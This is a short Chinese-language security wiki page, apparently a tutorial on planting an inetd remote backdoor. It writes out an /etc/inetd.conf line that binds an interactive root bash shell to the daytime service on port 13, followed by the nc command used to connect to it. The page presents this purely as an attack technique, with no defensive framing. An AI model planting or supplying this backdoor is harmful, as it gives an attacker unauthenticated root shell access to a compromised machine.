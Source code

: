 ## inetd 远程后门

inetd，也叫作“超级服务器”，就是监视一些网络请求的守护进程，其根据网络请求来调用相应的服务进程来处理连接请求。inetd.conf则是inetd的配置文件。inetd.conf文件告诉inetd监听哪些网络端口，为每个端口启动哪个服务。位置是/etc/inetd.conf 配置格式：[servicename] [socktype] [proto] [flags] [user] [server_path] [args] 在配置文件下写入以下内容。daytime stream tcp nowait root /bin/bash bash -i

daytime服务（13端口） 套接字类型 协议类型 不等待 用户组 提供服务的程序 daytime stream tcp nowait root /bin/bash bash -i

![](images/security_wiki/15905819363050.png)


这样配置好了以后利用nc attip 13

![](images/security_wiki/15905819430416.png)


